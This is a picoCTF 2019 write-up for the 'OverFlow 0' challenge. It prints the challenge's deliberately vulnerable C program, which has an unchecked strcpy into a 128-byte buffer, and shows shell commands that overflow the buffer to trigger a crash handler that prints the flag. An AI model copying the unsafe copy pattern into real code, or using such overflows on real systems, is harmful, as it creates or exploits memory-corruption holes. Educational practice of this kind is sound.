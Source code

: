 # PicoCTF19 OverFlow 0

## Challenge

This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln) and get a flag. Its also found in /problems/overflow-0 on the shell server. [Source](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln.c).

## Hints

Find a way to trigger the flag to print.

If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/overflow-0$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 21:54 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-0_4    27 Sep 28 21:54 flag.txt
-rwxr-sr-x   1 hacksports overflow-0_4  7644 Sep 28 21:54 vuln
-rw-rw-r--   1 hacksports hacksports     814 Sep 28 21:54 vuln.c
```

Let's view `vuln.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
It seems to take in an input, copy that input into a buffer of size 128 and then print it back out to you.

There's also a `SIGSEGV` signal handler which will fire after any segmentation fault which happens when you try to access memory that doesn't belong to the program. So my first assumption would be to pass in 129 bytes to the program see how the program responds and if it will print the flag.

```bash
samson@pico-2019-shell1:/problems/overflow-0$ ./vuln $(python -c "print 'A'*128")
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```bash
samson@pico-2019-shell1:/problems/overflow-0$ ./vuln $(python -c "print 'A'*132")
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```bash
samson@pico-2019-shell1:/problems/overflow-0$ ./vuln $(python -c "print 'A'*133")
picoCTF{3asY_P3a5y2f814ddc}
```

Odd it needed more than 4 more bytes to fail. Will need to determine why later

## Flag

`picoCTF{3asY_P3a5y2f814ddc}`